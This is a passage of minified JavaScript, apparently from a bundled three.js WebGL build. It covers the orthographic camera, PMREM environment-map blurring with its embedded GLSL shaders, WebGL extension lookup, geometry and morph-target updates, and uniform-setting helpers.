nr{constructor(t=-1,e=1,n=1,i=-1,r=.1,a=2e3){super(),this.isOrthographicCamera=!0,this.type=\"OrthographicCamera\",this.zoom=1,this.view=null,this.left=t,this.right=e,this.top=n,this.bottom=i,this.near=r,this.far=a,this.updateProjectionMatrix()}copy(t,e){return super.copy(t,e),this.left=t.left,this.right=t.right,this.top=t.top,this.bottom=t.bottom,this.near=t.near,this.far=t.far,this.zoom=t.zoom,this.view=null===t.view?null:Object.assign({},t.view),this}setViewOffset(t,e,n,i,r,a){null===this.view&&(this.view={enabled:!0,fullWidth:1,fullHeight:1,offsetX:0,offsetY:0,width:1,height:1}),this.view.enabled=!0,this.view.fullWidth=t,this.view.fullHeight=e,this.view.offsetX=n,this.view.offsetY=i,this.view.width=r,this.view.height=a,this.updateProjectionMatrix()}clearViewOffset(){null!==this.view&&(this.view.enabled=!1),this.updateProjectionMatrix()}updateProjectionMatrix(){const t=(this.right-this.left)/(2*this.zoom),e=(this.top-this.bottom)/(2*this.zoom),n=(this.right+this.left)/2,i=(this.top+this.bottom)/2;let r=n-t,a=n+t,o=i+e,s=i-e;if(null!==this.view&&this.view.enabled){const t=(this.right-this.left)/this.view.fullWidth/this.zoom,e=(this.top-this.bottom)/this.view.fullHeight/this.zoom;r+=t*this.view.offsetX,a=r+t*this.view.width,o-=e*this.view.offsetY,s=o-e*this.view.height}this.projectionMatrix.makeOrthographic(r,a,o,s,this.near,this.far,this.coordinateSystem),this.projectionMatrixInverse.copy(this.projectionMatrix).invert()}toJSON(t){const e=super.toJSON(t);return e.object.zoom=this.zoom,e.object.left=this.left,e.object.right=this.right,e.object.top=this.top,e.object.bottom=this.bottom,e.object.near=this.near,e.object.far=this.far,null!==this.view&&(e.object.view=Object.assign({},this.view)),e}}const Or=[.125,.215,.35,.446,.526,.582],Ur=20,Nr=new Ir,Fr=new di;let kr=null,zr=0,Br=0,Hr=!1;const Vr=(1+Math.sqrt(5))/2,Gr=1/Vr,jr=[new Xe(-Vr,Gr,0),new Xe(Vr,Gr,0),new Xe(-Gr,0,Vr),new Xe(Gr,0,Vr),new Xe(0,Vr,-Gr),new Xe(0,Vr,Gr),new Xe(-1,1,-1),new Xe(1,1,-1),new Xe(-1,1,1),new Xe(1,1,1)];class Wr{constructor(t){this._renderer=t,this._pingPongRenderTarget=null,this._lodMax=0,this._cubeSize=0,this._lodPlanes=[],this._sizeLods=[],this._sigmas=[],this._blurMaterial=null,this._cubemapMaterial=null,this._equirectMaterial=null,this._compileMaterial(this._blurMaterial)}fromScene(t,e=0,n=.1,i=100){kr=this._renderer.getRenderTarget(),zr=this._renderer.getActiveCubeFace(),Br=this._renderer.getActiveMipmapLevel(),Hr=this._renderer.xr.enabled,this._renderer.xr.enabled=!1,this._setSize(256);const r=this._allocateTargets();return r.depthBuffer=!0,this._sceneToCubeUV(t,n,i,r),e>0&&this._blur(r,0,0,e),this._applyPMREM(r),this._cleanup(r),r}fromEquirectangular(t,e=null){return this._fromTexture(t,e)}fromCubemap(t,e=null){return this._fromTexture(t,e)}compileCubemapShader(){null===this._cubemapMaterial&&(this._cubemapMaterial=Kr(),this._compileMaterial(this._cubemapMaterial))}compileEquirectangularShader(){null===this._equirectMaterial&&(this._equirectMaterial=Yr(),this._compileMaterial(this._equirectMaterial))}dispose(){this._dispose(),null!==this._cubemapMaterial&&this._cubemapMaterial.dispose(),null!==this._equirectMaterial&&this._equirectMaterial.dispose()}_setSize(t){this._lodMax=Math.floor(Math.log2(t)),this._cubeSize=Math.pow(2,this._lodMax)}_dispose(){null!==this._blurMaterial&&this._blurMaterial.dispose(),null!==this._pingPongRenderTarget&&this._pingPongRenderTarget.dispose();for(let t=0;t<this._lodPlanes.length;t++)this._lodPlanes[t].dispose()}_cleanup(t){this._renderer.setRenderTarget(kr,zr,Br),this._renderer.xr.enabled=Hr,t.scissorTest=!1,qr(t,0,0,t.width,t.height)}_fromTexture(t,e){t.mapping===D||t.mapping===I?this._setSize(0===t.image.length?16:t.image[0].width||t.image[0].image.width):this._setSize(t.image.width/4),kr=this._renderer.getRenderTarget(),zr=this._renderer.getActiveCubeFace(),Br=this._renderer.getActiveMipmapLevel(),Hr=this._renderer.xr.enabled,this._renderer.xr.enabled=!1;const n=e||this._allocateTargets();return this._textureToCubeUV(t,n),this._applyPMREM(n),this._cleanup(n),n}_allocateTargets(){const t=3*Math.max(this._cubeSize,112),e=4*this._cubeSize,n={magFilter:H,minFilter:H,generateMipmaps:!1,type:$,format:nt,colorSpace:Ht,depthBuffer:!1},i=Xr(t,e,n);if(null===this._pingPongRenderTarget||this._pingPongRenderTarget.width!==t||this._pingPongRenderTarget.height!==e){null!==this._pingPongRenderTarget&&this._dispose(),this._pingPongRenderTarget=Xr(t,e,n);const{_lodMax:i}=this;({sizeLods:this._sizeLods,lodPlanes:this._lodPlanes,sigmas:this._sigmas}=function(t){const e=[],n=[],i=[];let r=t;const a=t-4+1+Or.length;for(let o=0;o<a;o++){const a=Math.pow(2,r);n.push(a);let s=1/a;o>t-4?s=Or[o-t+4-1]:0===o&&(s=0),i.push(s);const l=1/(a-2),c=-l,h=1+l,u=[c,c,h,c,h,h,c,c,h,h,c,h],d=6,p=6,f=3,m=2,g=1,_=new Float32Array(f*p*d),v=new Float32Array(m*p*d),y=new Float32Array(g*p*d);for(let t=0;t<d;t++){const e=t%3*2/3-1,n=t>2?0:-1,i=[e,n,0,e+2/3,n,0,e+2/3,n+1,0,e,n,0,e+2/3,n+1,0,e,n+1,0];_.set(i,f*p*t),v.set(u,m*p*t);const r=[t,t,t,t,t,t];y.set(r,g*p*t)}const x=new Pi;x.setAttribute(\"position\",new yi(_,f)),x.setAttribute(\"uv\",new yi(v,m)),x.setAttribute(\"faceIndex\",new yi(y,g)),e.push(x),r>4&&r--}return{lodPlanes:e,sizeLods:n,sigmas:i}}(i)),this._blurMaterial=function(t,e,n){const i=new Float32Array(Ur),r=new Xe(0,1,0),a=new er({name:\"SphericalGaussianBlur\",defines:{n:Ur,CUBEUV_TEXEL_WIDTH:1/e,CUBEUV_TEXEL_HEIGHT:1/n,CUBEUV_MAX_MIP:`${t}.0`},uniforms:{envMap:{value:null},samples:{value:1},weights:{value:i},latitudinal:{value:!1},dTheta:{value:0},mipInt:{value:0},poleAxis:{value:r}},vertexShader:Zr(),fragmentShader:\"\\n\\n\\t\\t\\tprecision mediump float;\\n\\t\\t\\tprecision mediump int;\\n\\n\\t\\t\\tvarying vec3 vOutputDirection;\\n\\n\\t\\t\\tuniform sampler2D envMap;\\n\\t\\t\\tuniform int samples;\\n\\t\\t\\tuniform float weights[ n ];\\n\\t\\t\\tuniform bool latitudinal;\\n\\t\\t\\tuniform float dTheta;\\n\\t\\t\\tuniform float mipInt;\\n\\t\\t\\tuniform vec3 poleAxis;\\n\\n\\t\\t\\t#define ENVMAP_TYPE_CUBE_UV\\n\\t\\t\\t#include <cube_uv_reflection_fragment>\\n\\n\\t\\t\\tvec3 getSample( float theta, vec3 axis ) {\\n\\n\\t\\t\\t\\tfloat cosTheta = cos( theta );\\n\\t\\t\\t\\t// Rodrigues' axis-angle rotation\\n\\t\\t\\t\\tvec3 sampleDirection = vOutputDirection * cosTheta\\n\\t\\t\\t\\t\\t+ cross( axis, vOutputDirection ) * sin( theta )\\n\\t\\t\\t\\t\\t+ axis * dot( axis, vOutputDirection ) * ( 1.0 - cosTheta );\\n\\n\\t\\t\\t\\treturn bilinearCubeUV( envMap, sampleDirection, mipInt );\\n\\n\\t\\t\\t}\\n\\n\\t\\t\\tvoid main() {\\n\\n\\t\\t\\t\\tvec3 axis = latitudinal ? poleAxis : cross( poleAxis, vOutputDirection );\\n\\n\\t\\t\\t\\tif ( all( equal( axis, vec3( 0.0 ) ) ) ) {\\n\\n\\t\\t\\t\\t\\taxis = vec3( vOutputDirection.z, 0.0, - vOutputDirection.x );\\n\\n\\t\\t\\t\\t}\\n\\n\\t\\t\\t\\taxis = normalize( axis );\\n\\n\\t\\t\\t\\tgl_FragColor = vec4( 0.0, 0.0, 0.0, 1.0 );\\n\\t\\t\\t\\tgl_FragColor.rgb += weights[ 0 ] * getSample( 0.0, axis );\\n\\n\\t\\t\\t\\tfor ( int i = 1; i < n; i++ ) {\\n\\n\\t\\t\\t\\t\\tif ( i >= samples ) {\\n\\n\\t\\t\\t\\t\\t\\tbreak;\\n\\n\\t\\t\\t\\t\\t}\\n\\n\\t\\t\\t\\t\\tfloat theta = dTheta * float( i );\\n\\t\\t\\t\\t\\tgl_FragColor.rgb += weights[ i ] * getSample( -1.0 * theta, axis );\\n\\t\\t\\t\\t\\tgl_FragColor.rgb += weights[ i ] * getSample( theta, axis );\\n\\n\\t\\t\\t\\t}\\n\\n\\t\\t\\t}\\n\\t\\t\",blending:0,depthTest:!1,depthWrite:!1});return a}(i,t,e)}return i}_compileMaterial(t){const e=new Yi(this._lodPlanes[0],t);this._renderer.compile(e,Nr)}_sceneToCubeUV(t,e,n,i){const r=new or(90,1,e,n),a=[1,-1,1,1,1,1],o=[1,1,1,-1,-1,-1],s=this._renderer,l=s.autoClear,c=s.toneMapping;s.getClearColor(Fr),s.toneMapping=0,s.autoClear=!1;const h=new gi({name:\"PMREM.Background\",side:1,depthWrite:!1,depthTest:!1}),u=new Yi(new Zi,h);let d=!1;const p=t.background;p?p.isColor&&(h.color.copy(p),t.background=null,d=!0):(h.color.copy(Fr),d=!0);for(let e=0;e<6;e++){const n=e%3;0===n?(r.up.set(0,a[e],0),r.lookAt(o[e],0,0)):1===n?(r.up.set(0,0,a[e]),r.lookAt(0,o[e],0)):(r.up.set(0,a[e],0),r.lookAt(0,0,o[e]));const l=this._cubeSize;qr(i,n*l,e>2?l:0,l,l),s.setRenderTarget(i),d&&s.render(u,r),s.render(t,r)}u.geometry.dispose(),u.material.dispose(),s.toneMapping=c,s.autoClear=l,t.background=p}_textureToCubeUV(t,e){const n=this._renderer,i=t.mapping===D||t.mapping===I;i?(null===this._cubemapMaterial&&(this._cubemapMaterial=Kr()),this._cubemapMaterial.uniforms.flipEnvMap.value=!1===t.isRenderTargetTexture?-1:1):null===this._equirectMaterial&&(this._equirectMaterial=Yr());const r=i?this._cubemapMaterial:this._equirectMaterial,a=new Yi(this._lodPlanes[0],r);r.uniforms.envMap.value=t;const o=this._cubeSize;qr(e,0,0,3*o,2*o),n.setRenderTarget(e),n.render(a,Nr)}_applyPMREM(t){const e=this._renderer,n=e.autoClear;e.autoClear=!1;const i=this._lodPlanes.length;for(let e=1;e<i;e++){const n=Math.sqrt(this._sigmas[e]*this._sigmas[e]-this._sigmas[e-1]*this._sigmas[e-1]),r=jr[(i-e-1)%jr.length];this._blur(t,e-1,e,n,r)}e.autoClear=n}_blur(t,e,n,i,r){const a=this._pingPongRenderTarget;this._halfBlur(t,a,e,n,i,\"latitudinal\",r),this._halfBlur(a,t,n,n,i,\"longitudinal\",r)}_halfBlur(t,e,n,i,r,a,o){const s=this._renderer,l=this._blurMaterial;\"latitudinal\"!==a&&\"longitudinal\"!==a&&console.error(\"blur direction must be either latitudinal or longitudinal!\");const c=new Yi(this._lodPlanes[i],l),h=l.uniforms,u=this._sizeLods[n]-1,d=isFinite(r)?Math.PI/(2*u):2*Math.PI/39,p=r/d,f=isFinite(r)?1+Math.floor(3*p):Ur;f>Ur&&console.warn(`sigmaRadians, ${r}, is too large and will clip, as it requested ${f} samples when the maximum is set to 20`);const m=[];let g=0;for(let t=0;t<Ur;++t){const e=t/p,n=Math.exp(-e*e/2);m.push(n),0===t?g+=n:t<f&&(g+=2*n)}for(let t=0;t<m.length;t++)m[t]=m[t]/g;h.envMap.value=t.texture,h.samples.value=f,h.weights.value=m,h.latitudinal.value=\"latitudinal\"===a,o&&(h.poleAxis.value=o);const{_lodMax:_}=this;h.dTheta.value=d,h.mipInt.value=_-n;const v=this._sizeLods[i];qr(e,3*v*(i>_-4?i-_+4:0),4*(this._cubeSize-v),3*v,2*v),s.setRenderTarget(e),s.render(c,Nr)}}function Xr(t,e,n){const i=new Ve(t,e,n);return i.texture.mapping=O,i.texture.name=\"PMREM.cubeUv\",i.scissorTest=!0,i}function qr(t,e,n,i,r){t.viewport.set(e,n,i,r),t.scissor.set(e,n,i,r)}function Yr(){return new er({name:\"EquirectangularToCubeUV\",uniforms:{envMap:{value:null}},vertexShader:Zr(),fragmentShader:\"\\n\\n\\t\\t\\tprecision mediump float;\\n\\t\\t\\tprecision mediump int;\\n\\n\\t\\t\\tvarying vec3 vOutputDirection;\\n\\n\\t\\t\\tuniform sampler2D envMap;\\n\\n\\t\\t\\t#include <common>\\n\\n\\t\\t\\tvoid main() {\\n\\n\\t\\t\\t\\tvec3 outputDirection = normalize( vOutputDirection );\\n\\t\\t\\t\\tvec2 uv = equirectUv( outputDirection );\\n\\n\\t\\t\\t\\tgl_FragColor = vec4( texture2D ( envMap, uv ).rgb, 1.0 );\\n\\n\\t\\t\\t}\\n\\t\\t\",blending:0,depthTest:!1,depthWrite:!1})}function Kr(){return new er({name:\"CubemapToCubeUV\",uniforms:{envMap:{value:null},flipEnvMap:{value:-1}},vertexShader:Zr(),fragmentShader:\"\\n\\n\\t\\t\\tprecision mediump float;\\n\\t\\t\\tprecision mediump int;\\n\\n\\t\\t\\tuniform float flipEnvMap;\\n\\n\\t\\t\\tvarying vec3 vOutputDirection;\\n\\n\\t\\t\\tuniform samplerCube envMap;\\n\\n\\t\\t\\tvoid main() {\\n\\n\\t\\t\\t\\tgl_FragColor = textureCube( envMap, vec3( flipEnvMap * vOutputDirection.x, vOutputDirection.yz ) );\\n\\n\\t\\t\\t}\\n\\t\\t\",blending:0,depthTest:!1,depthWrite:!1})}function Zr(){return\"\\n\\n\\t\\tprecision mediump float;\\n\\t\\tprecision mediump int;\\n\\n\\t\\tattribute float faceIndex;\\n\\n\\t\\tvarying vec3 vOutputDirection;\\n\\n\\t\\t// RH coordinate system; PMREM face-indexing convention\\n\\t\\tvec3 getDirection( vec2 uv, float face ) {\\n\\n\\t\\t\\tuv = 2.0 * uv - 1.0;\\n\\n\\t\\t\\tvec3 direction = vec3( uv, 1.0 );\\n\\n\\t\\t\\tif ( face == 0.0 ) {\\n\\n\\t\\t\\t\\tdirection = direction.zyx; // ( 1, v, u ) pos x\\n\\n\\t\\t\\t} else if ( face == 1.0 ) {\\n\\n\\t\\t\\t\\tdirection = direction.xzy;\\n\\t\\t\\t\\tdirection.xz *= -1.0; // ( -u, 1, -v ) pos y\\n\\n\\t\\t\\t} else if ( face == 2.0 ) {\\n\\n\\t\\t\\t\\tdirection.x *= -1.0; // ( -u, v, 1 ) pos z\\n\\n\\t\\t\\t} else if ( face == 3.0 ) {\\n\\n\\t\\t\\t\\tdirection = direction.zyx;\\n\\t\\t\\t\\tdirection.xz *= -1.0; // ( -1, v, -u ) neg x\\n\\n\\t\\t\\t} else if ( face == 4.0 ) {\\n\\n\\t\\t\\t\\tdirection = direction.xzy;\\n\\t\\t\\t\\tdirection.xy *= -1.0; // ( -u, -1, v ) neg y\\n\\n\\t\\t\\t} else if ( face == 5.0 ) {\\n\\n\\t\\t\\t\\tdirection.z *= -1.0; // ( u, v, -1 ) neg z\\n\\n\\t\\t\\t}\\n\\n\\t\\t\\treturn direction;\\n\\n\\t\\t}\\n\\n\\t\\tvoid main() {\\n\\n\\t\\t\\tvOutputDirection = getDirection( uv, faceIndex );\\n\\t\\t\\tgl_Position = vec4( position, 1.0 );\\n\\n\\t\\t}\\n\\t\"}function $r(t){let e=new WeakMap,n=null;function i(t){const n=t.target;n.removeEventListener(\"dispose\",i);const r=e.get(n);void 0!==r&&(e.delete(n),r.dispose())}return{get:function(r){if(r&&r.isTexture){const a=r.mapping,o=303===a||304===a,s=a===D||a===I;if(o||s){let a=e.get(r);const l=void 0!==a?a.texture.pmremVersion:0;if(r.isRenderTargetTexture&&r.pmremVersion!==l)return null===n&&(n=new Wr(t)),a=o?n.fromEquirectangular(r,a):n.fromCubemap(r,a),a.texture.pmremVersion=r.pmremVersion,e.set(r,a),a.texture;if(void 0!==a)return a.texture;{const l=r.image;return o&&l&&l.height>0||s&&l&&function(t){let e=0;const n=6;for(let i=0;i<n;i++)void 0!==t[i]&&e++;return e===n}(l)?(null===n&&(n=new Wr(t)),a=o?n.fromEquirectangular(r):n.fromCubemap(r),a.texture.pmremVersion=r.pmremVersion,e.set(r,a),r.addEventListener(\"dispose\",i),a.texture):null}}}return r},dispose:function(){e=new WeakMap,null!==n&&(n.dispose(),n=null)}}}function Jr(t){const e={};function n(n){if(void 0!==e[n])return e[n];let i;switch(n){case\"WEBGL_depth_texture\":i=t.getExtension(\"WEBGL_depth_texture\")||t.getExtension(\"MOZ_WEBGL_depth_texture\")||t.getExtension(\"WEBKIT_WEBGL_depth_texture\");break;case\"EXT_texture_filter_anisotropic\":i=t.getExtension(\"EXT_texture_filter_anisotropic\")||t.getExtension(\"MOZ_EXT_texture_filter_anisotropic\")||t.getExtension(\"WEBKIT_EXT_texture_filter_anisotropic\");break;case\"WEBGL_compressed_texture_s3tc\":i=t.getExtension(\"WEBGL_compressed_texture_s3tc\")||t.getExtension(\"MOZ_WEBGL_compressed_texture_s3tc\")||t.getExtension(\"WEBKIT_WEBGL_compressed_texture_s3tc\");break;case\"WEBGL_compressed_texture_pvrtc\":i=t.getExtension(\"WEBGL_compressed_texture_pvrtc\")||t.getExtension(\"WEBKIT_WEBGL_compressed_texture_pvrtc\");break;default:i=t.getExtension(n)}return e[n]=i,i}return{has:function(t){return null!==n(t)},init:function(){n(\"EXT_color_buffer_float\"),n(\"WEBGL_clip_cull_distance\"),n(\"OES_texture_float_linear\"),n(\"EXT_color_buffer_half_float\"),n(\"WEBGL_multisampled_render_to_texture\"),n(\"WEBGL_render_shared_exponent\")},get:function(t){const e=n(t);return null===e&&we(\"THREE.WebGLRenderer: \"+t+\" extension not supported.\"),e}}}function Qr(t,e,n,i){const r={},a=new WeakMap;function o(t){const s=t.target;null!==s.index&&e.remove(s.index);for(const t in s.attributes)e.remove(s.attributes[t]);for(const t in s.morphAttributes){const n=s.morphAttributes[t];for(let t=0,i=n.length;t<i;t++)e.remove(n[t])}s.removeEventListener(\"dispose\",o),delete r[s.id];const l=a.get(s);l&&(e.remove(l),a.delete(s)),i.releaseStatesOfGeometry(s),!0===s.isInstancedBufferGeometry&&delete s._maxInstanceCount,n.memory.geometries--}function s(t){const n=[],i=t.index,r=t.attributes.position;let o=0;if(null!==i){const t=i.array;o=i.version;for(let e=0,i=t.length;e<i;e+=3){const i=t[e+0],r=t[e+1],a=t[e+2];n.push(i,r,r,a,a,i)}}else{if(void 0===r)return;{const t=r.array;o=r.version;for(let e=0,i=t.length/3-1;e<i;e+=3){const t=e+0,i=e+1,r=e+2;n.push(t,i,i,r,r,t)}}}const s=new(be(n)?bi:xi)(n,1);s.version=o;const l=a.get(t);l&&e.remove(l),a.set(t,s)}return{get:function(t,e){return!0===r[e.id]||(e.addEventListener(\"dispose\",o),r[e.id]=!0,n.memory.geometries++),e},update:function(n){const i=n.attributes;for(const n in i)e.update(i[n],t.ARRAY_BUFFER);const r=n.morphAttributes;for(const n in r){const i=r[n];for(let n=0,r=i.length;n<r;n++)e.update(i[n],t.ARRAY_BUFFER)}},getWireframeAttribute:function(t){const e=a.get(t);if(e){const n=t.index;null!==n&&e.version<n.version&&s(t)}else s(t);return a.get(t)}}}function ta(t,e,n){let i,r,a;function o(e,o,s){0!==s&&(t.drawElementsInstanced(i,o,r,e*a,s),n.update(o,i,s))}this.setMode=function(t){i=t},this.setIndex=function(t){r=t.type,a=t.bytesPerElement},this.render=function(e,o){t.drawElements(i,o,r,e*a),n.update(o,i,1)},this.renderInstances=o,this.renderMultiDraw=function(t,a,o){if(0===o)return;e.get(\"WEBGL_multi_draw\").multiDrawElementsWEBGL(i,a,0,r,t,0,o);let s=0;for(let t=0;t<o;t++)s+=a[t];n.update(s,i,1)},this.renderMultiDrawInstances=function(t,s,l,c){if(0===l)return;const h=e.get(\"WEBGL_multi_draw\");if(null===h)for(let e=0;e<t.length;e++)o(t[e]/a,s[e],c[e]);else{h.multiDrawElementsInstancedWEBGL(i,s,0,r,t,0,c,0,l);let e=0;for(let t=0;t<l;t++)e+=s[t];for(let t=0;t<c.length;t++)n.update(e,i,c[t])}}}function ea(t){const e={frame:0,calls:0,triangles:0,points:0,lines:0};return{memory:{geometries:0,textures:0},render:e,programs:null,autoReset:!0,reset:function(){e.calls=0,e.triangles=0,e.points=0,e.lines=0},update:function(n,i,r){switch(e.calls++,i){case t.TRIANGLES:e.triangles+=r*(n/3);break;case t.LINES:e.lines+=r*(n/2);break;case t.LINE_STRIP:e.lines+=r*(n-1);break;case t.LINE_LOOP:e.lines+=r*n;break;case t.POINTS:e.points+=r*n;break;default:console.error(\"THREE.WebGLInfo: Unknown draw mode:\",i)}}}}function na(t,e,n){const i=new WeakMap,r=new Be;return{update:function(a,o,s){const l=a.morphTargetInfluences,c=o.morphAttributes.position||o.morphAttributes.normal||o.morphAttributes.color,h=void 0!==c?c.length:0;let u=i.get(o);if(void 0===u||u.count!==h){void 0!==u&&u.texture.dispose();const d=void 0!==o.morphAttributes.position,p=void 0!==o.morphAttributes.normal,f=void 0!==o.morphAttributes.color,m=o.morphAttributes.position||[],g=o.morphAttributes.normal||[],_=o.morphAttributes.color||[];let v=0;!0===d&&(v=1),!0===p&&(v=2),!0===f&&(v=3);let y=o.attributes.position.count*v,x=1;y>e.maxTextureSize&&(x=Math.ceil(y/e.maxTextureSize),y=e.maxTextureSize);const b=new Float32Array(y*x*4*h),M=new Ge(b,y,x,h);M.type=Z,M.needsUpdate=!0;const S=4*v;for(let w=0;w<h;w++){const T=m[w],A=g[w],C=_[w],R=y*x*4*w;for(let P=0;P<T.count;P++){const L=P*S;!0===d&&(r.fromBufferAttribute(T,P),b[R+L+0]=r.x,b[R+L+1]=r.y,b[R+L+2]=r.z,b[R+L+3]=0),!0===p&&(r.fromBufferAttribute(A,P),b[R+L+4]=r.x,b[R+L+5]=r.y,b[R+L+6]=r.z,b[R+L+7]=0),!0===f&&(r.fromBufferAttribute(C,P),b[R+L+8]=r.x,b[R+L+9]=r.y,b[R+L+10]=r.z,b[R+L+11]=4===C.itemSize?r.w:1)}}function E(){M.dispose(),i.delete(o),o.removeEventListener(\"dispose\",E)}u={count:h,texture:M,size:new ve(y,x)},i.set(o,u),o.addEventListener(\"dispose\",E)}if(!0===a.isInstancedMesh&&null!==a.morphTexture)s.getUniforms().setValue(t,\"morphTexture\",a.morphTexture,n);else{let D=0;for(let O=0;O<l.length;O++)D+=l[O];const I=o.morphTargetsRelative?1:1-D;s.getUniforms().setValue(t,\"morphTargetBaseInfluence\",I),s.getUniforms().setValue(t,\"morphTargetInfluences\",l)}s.getUniforms().setValue(t,\"morphTargetsTexture\",u.texture,n),s.getUniforms().setValue(t,\"morphTargetsTextureSize\",u.size)}}}function ia(t,e,n,i){let r=new WeakMap;function a(t){const e=t.target;e.removeEventListener(\"dispose\",a),n.remove(e.instanceMatrix),null!==e.instanceColor&&n.remove(e.instanceColor)}return{update:function(o){const s=i.render.frame,l=o.geometry,c=e.get(o,l);if(r.get(c)!==s&&(e.update(c),r.set(c,s)),o.isInstancedMesh&&(!1===o.hasEventListener(\"dispose\",a)&&o.addEventListener(\"dispose\",a),r.get(o)!==s&&(n.update(o.instanceMatrix,t.ARRAY_BUFFER),null!==o.instanceColor&&n.update(o.instanceColor,t.ARRAY_BUFFER),r.set(o,s))),o.isSkinnedMesh){const t=o.skeleton;r.get(t)!==s&&(t.update(),r.set(t,s))}return c},dispose:function(){r=new WeakMap}}}class ra extends ze{constructor(t,e,n,i,r,a,o,s,l,c=1026){if(c!==it&&c!==rt)throw new Error(\"DepthTexture format must be either THREE.DepthFormat or THREE.DepthStencilFormat\");void 0===n&&c===it&&(n=K),void 0===n&&c===rt&&(n=tt),super(null,i,r,a,o,s,c,n,l),this.isDepthTexture=!0,this.image={width:t,height:e},this.magFilter=void 0!==o?o:k,this.minFilter=void 0!==s?s:k,this.flipY=!1,this.generateMipmaps=!1,this.compareFunction=null}copy(t){return super.copy(t),this.compareFunction=t.compareFunction,this}toJSON(t){const e=super.toJSON(t);return null!==this.compareFunction&&(e.compareFunction=this.compareFunction),e}}const aa=new ze,oa=new ra(1,1),sa=new Ge,la=new je,ca=new cr,ha=[],ua=[],da=new Float32Array(16),pa=new Float32Array(9),fa=new Float32Array(4);function ma(t,e,n){const i=t[0];if(i<=0||i>0)return t;const r=e*n;let a=ha[r];if(void 0===a&&(a=new Float32Array(r),ha[r]=a),0!==e){i.toArray(a,0);for(let i=1,r=0;i!==e;++i)r+=n,t[i].toArray(a,r)}return a}function ga(t,e){if(t.length!==e.length)return!1;for(let n=0,i=t.length;n<i;n++)if(t[n]!==e[n])return!1;return!0}function _a(t,e){for(let n=0,i=e.length;n<i;n++)t[n]=e[n]}function va(t,e){let n=ua[e];void 0===n&&(n=new Int32Array(e),ua[e]=n);for(let i=0;i!==e;++i)n[i]=t.allocateTextureUnit();return n}function ya(t,e){const n=this.cache;n[0]!==e&&(t.uniform1f(this.addr,e),n[0]=e)}function xa(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y||(t.uniform2f(this.addr,e.x,e.y),n[0]=e.x,n[1]=e.y);else{if(ga(n,e))return;t.uniform2fv(this.addr,e),_a(n,e)}}function ba(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z||(t.uniform3f(this.addr,e.x,e.y,e.z),n[0]=e.x,n[1]=e.y,n[2]=e.z);else if(void 0!==e.r)n[0]===e.r&&n[1]===e.g&&n[2]===e.b||(t.uniform3f(this.addr,e.r,e.g,e.b),n[0]=e.r,n[1]=e.g,n[2]=e.b);else{if(ga(n,e))return;t.uniform3fv(this.addr,e),_a(n,e)}}function Ma(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z&&n[3]===e.w||(t.uniform4f(this.addr,e.x,e.y,e.z,e.w),n[0]=e.x,n[1]=e.y,n[2]=e.z,n[3]=e.w);else{if(ga(n,e))return;t.uniform4fv(this.addr,e),_a(n,e)}}function Sa(t,e){const n=this.cache,i=e.elements;if(void 0===i){if(ga(n,e))return;t.uniformMatrix2fv(this.addr,!1,e),_a(n,e)}else{if(ga(n,i))return;fa.set(i),t.uniformMatrix2fv(this.addr,!1,fa),_a(n,i)}}function Ea(t,e){const n=this.cache,i=e.elements;if(void 0===i){if(ga(n,e))return;t.uniformMatrix3fv(this.addr,!1,e),_a(n,e)}else{if(ga(n,i))return;pa.set(i),t.uniformMatrix3fv(this.addr,!1,pa),_a(n,i)}}function wa(t,e){const n=this.cache,i=e.elements;if(void 0===i){if(ga(n,e))return;t.uniformMatrix4fv(this.addr,!1,e),_a(n,e)}else{if(ga(n,i))return;da.set(i),t.uniformMatrix4fv(this.addr,!1,da),_a(n,i)}}function Ta(t,e){const n=this.cache;n[0]!==e&&(t.uniform1i(this.addr,e),n[0]=e)}function Aa(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y||(t.uniform2i(this.addr,e.x,e.y),n[0]=e.x,n[1]=e.y);else{if(ga(n,e))return;t.uniform2iv(this.addr,e),_a(n,e)}}function Ca(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z||(t.uniform3i(this.addr,e.x,e.y,e.z),n[0]=e.x,n[1]=e.y,n[2]=e.z);else{if(ga(n,e))return;t.uniform3iv(this.addr,e),_a(n,e)}}function Ra(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z&&n[3]===e.w||(t.uniform4i(this.addr,e.x,e.y,e.z,e.w),n[0]=e.x,n[1]=e.y,n[2]=e.z,n[3]=e.w);else{if(ga(n,e))return;t.uniform4iv(this.addr,e),_a(n,e)}}function Pa(t,e){const n=this.cache;n[0]!==e&&(t.uniform1ui(this.addr,e),n[0]=e)}function La(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y||(t.uniform2ui(this.addr,e.x,e.y),n[0]=e.x,n[1]=e.y);else{if(ga(n,e))return;t.uniform2uiv(this.addr,e),_a(n,e)}}function Da(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z||(t.uniform3ui(this.addr,e.x,e.y,e.z),n[0]=e.x,n[1]=e.y,n[2]=e.z);else{if(ga(n,e))return;t.uniform3uiv(this.addr,e),_a(n,e)}}function Ia(t,e){const n=this.cache;if(void 0!==e.x)n[0]===e.x&&n[1]===e.y&&n[2]===e.z&&n[3]===e.w||(t.uniform4ui(this.addr,e.x,e.y,e.z,e.w),n[0]=e.x,n[1]=e.y,n[2]=e.z,n[3]=e.w);else{if(ga(n,e))return;t.uniform4uiv(this.addr,e),_a(n,e)}}function Oa(t,e,n){const i=this.cache,r=n.allocateTextureUnit();let a;i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),this.type===t.SAMPLER_2D_SHADOW?(oa.compareFunction=515,a=oa):a=aa,n.setTexture2D(e||a,r)}function Ua(t,e,n){const i=this.cache,r=n.allocateTextureUnit();i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),n.setTexture3D(e||la,r)}function Na(t,e,n){const i=this.cache,r=n.allocateTextureUnit();i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),n.setTextureCube(e||ca,r)}function Fa(t,e,n){const i=this.cache,r=n.allocateTextureUnit();i[0]!==r&&(t.uniform1i(this.addr,r),i[0]=r),n.setTexture2DArray(e||sa,r)}function ka(t,e){t.uniform1fv(this.addr,e)}function za(t,e){const 